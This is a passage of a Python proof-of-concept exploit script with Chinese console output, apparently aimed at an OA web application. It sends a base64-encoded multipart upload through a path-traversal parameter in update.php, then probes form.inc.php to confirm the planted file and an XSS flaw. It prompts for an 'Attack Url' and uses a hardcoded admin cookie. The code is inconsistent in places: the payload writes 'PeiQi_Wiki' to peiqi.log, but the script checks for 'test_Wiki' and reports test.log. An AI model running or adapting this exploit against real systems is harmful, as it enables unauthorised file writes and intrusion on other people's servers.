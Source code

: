 ```python

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie":  Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkubG9nIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KClBlaVFpX1dpa2kKLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InN1Ym1pdCIKCuaPkOS6pAotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/test \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 test.log 文件, \033[0m".format(target_url))
            POC_3(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传 test.log 文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cookie):
    vuln_url = target_url + "/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":  Cookie,
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test \033[0m".format(target_url))
        if "test_Wiki" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞，响应中包含 test_Wiki,存在XSS漏洞, 可参考文章写的利用版本进一步攻击 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞，响应中不包含 test_Wiki\033[0m".format(target_url))
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = "USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31"
```